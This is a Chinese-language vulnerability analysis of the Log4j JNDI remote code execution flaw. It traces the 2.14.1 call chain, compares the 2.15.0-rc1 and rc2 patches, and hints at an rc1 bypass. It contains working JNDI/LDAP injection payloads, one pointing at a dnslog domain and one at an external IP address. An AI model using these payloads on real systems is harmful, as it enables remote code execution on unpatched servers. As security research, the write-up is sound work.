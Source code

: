 log4j rce

影响版本：

2.0-beta9 到 2.14.1

修复版本：

2.15.0-rc2

payload：

`${jndi:ldap://9zx4xu.dnslog.cn:1389/Exp}`

分析：

先来看原来没修的

## 2.14.1

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class log4j {
    private static final Logger logger = LogManager.getLogger(log4j.class);

    public static void main(String[] args) {
        logger.error("${jndi:ldap://49.232.128.44:1234/Exploit}");
    }
}
```

这里的调用链比较长，如下

```java
toSerializable:342, PatternLayout$PatternSerializer (org.apache.logging.log4j.core.layout)
toText:244, PatternLayout (org.apache.logging.log4j.core.layout)
encode:229, PatternLayout (org.apache.logging.log4j.core.layout)
encode:59, PatternLayout (org.apache.logging.log4j.core.layout)
directEncodeEvent:197, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryAppend:190, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
append:181, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryCallAppender:156, AppenderControl (org.apache.logging.log4j.core.config)
callAppender0:129, AppenderControl (org.apache.logging.log4j.core.config)
callAppenderPreventRecursion:120, AppenderControl (org.apache.logging.log4j.core.config)
callAppender:84, AppenderControl (org.apache.logging.log4j.core.config)
callAppenders:540, LoggerConfig (org.apache.logging.log4j.core.config)
processLogEvent:498, LoggerConfig (org.apache.logging.log4j.core.config)
log:481, LoggerConfig (org.apache.logging.log4j.core.config)
log:456, LoggerConfig (org.apache.logging.log4j.core.config)
log:63, DefaultReliabilityStrategy (org.apache.logging.log4j.core.config)
log:161, Logger (org.apache.logging.log4j.core)
tryLogMessage:2205, AbstractLogger (org.apache.logging.log4j.spi)
logMessageTrackRecursion:2159, AbstractLogger (org.apache.logging.log4j.spi)
logMessageSafely:2142, AbstractLogger (org.apache.logging.log4j.spi)
logMessage:2017, AbstractLogger (org.apache.logging.log4j.spi)
logIfEnabled:1983, AbstractLogger (org.apache.logging.log4j.spi)
error:740, AbstractLogger (org.apache.logging.log4j.spi)
main:42, log4j
```

断点打到PatternLayout#toSerializable

这里的event参数即为封装的日志事件，其中message参数包含我们的exploit。然后会调用this.formatters中的format方法

![image-20211211143838953](./images/image-20211211143838953.png)

format方法中会调用this.converter的format方法

![image-20211211151305638](./images/image-20211211151305638.png)

formatters如下，主要是每个formatter的converter属性不同，这里主要看MessagePatternConverter，因为是处理message即恶意参数的

![image-20211211150649037](./images/image-20211211150649037.png)

MessagePatternConverter#format

这里从event取出message后会拼接上workingBuilder，然后判断其中是否有连续的`${`字符，如果有则取出进行替换(其实就是解析${}中的内容)

![image-20211211152137585](./images/image-20211211152137585.png)

经过几个调用

```java
substitute:930, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:912, StrSubstitutor (org.apache.logging.log4j.core.lookup)
replace:467, StrSubstitutor (org.apache.logging.log4j.core.lookup)
```

到StrSubstitutor#substitute

这里内容比较多，就不贴图了，主要作用就是递归解析${}的内容，解析的函数在418行this.resolveVariable，此时varName为

`jndi:ldap://localhost:1234/Exploit`

```java
    private int substitute(final LogEvent event, final StringBuilder buf, final int offset, final int length, List<String> priorVariables) {
        ...
        String varValue = this.resolveVariable(event, varName, buf, startPos, pos);
    }
```

这里会调用resolver#lookup，并且支持的lookup调用在strLookupMap中，这里可以看到jndi

![image-20211211153508179](./images/image-20211211153508179.png)

先继续跟入Interpolator#lookup

这里会根据var的前四位来从strLookupMap中取对应的lookup实现，这里因为是`jndi:ldap://localhost:1234/Exploit`所以取出JndiLookup，然后在下面调用JndiLookup#lookup方法

![image-20211211153540919](./images/image-20211211153540919.png)

最终在JndiManager#lookup中完成jndi注入

![image-20211211153932982](./images/image-20211211153932982.png)

## 2.15.0-rc1

2.15.0-rc1版本主要是对PatternLayout#toSerializable中的this.formatters做了改动

可以看到MessagePatternConverter变成了MessagePatternConverter$SimpleMessagePatternConverter

![image-20211211154508254](./images/image-20211211154508254.png)

看一下他的format方法，这里并没有对${}进行提取解析，只是将它拼接到error的日志格式后了

![image-20211211154625352](./images/image-20211211154625352.png)

而真正解析的地方被放到了

MessagePatternConverter$LookupMessagePatternConverter中，但是之前formatters中根本就没有这个Converter，所以其实算是修复了

![image-20211211154815673](./images/image-20211211154815673.png)

除非手动构造一个，但是感觉这样有点鸡肋...不知道还有没有其他方法，这里用了4train师傅的构造

```java
public static void main(String[] args) {
        final Configuration config = new DefaultConfigurationBuilder().build(true);
        final MessagePatternConverter converter =
                MessagePatternConverter.newInstance(config, new String[] {"lookups"});
        final Message msg = new ParameterizedMessage("${jndi:ldap://ip:1234/rce}");
        final LogEvent event = Log4jLogEvent.newBuilder()
                .setLoggerName("MyLogger")
                .setLevel(Level.DEBUG)
                .setMessage(msg).build();
        final StringBuilder sb = new StringBuilder();
        converter.format(event, sb);
        System.out.println(sb);
    }
```

不过这里rc1中JndiManager#lookup中有规定运行的地址、类、以及协议，可以看到这里只允许ldap请求本地服务，基本上寄了

![image-20211211155829341](./images/image-20211211155829341.png)

但是官方后来又发布了2.15.0-rc2

其中一个补丁是在JndiManager#lookup中增加了捕获到异常后的返回处理

![image-20211211160025091](./images/image-20211211160025091.png)

还有一处是官方测试时添加的，那么可以猜测使用一些特殊字符放入jndi的uri中另程序进入异常，并且rc1中不会进行异常处理，以此绕过

![image-20211211160228781](./images/image-20211211160228781.png)

所以加个在ClassName前加个空格就好了，本地利用需要tomcat的包(支持BeanFactory、ELProcessor)或者其他gadget

![image-20211211160626836](./images/image-20211211160626836.png)


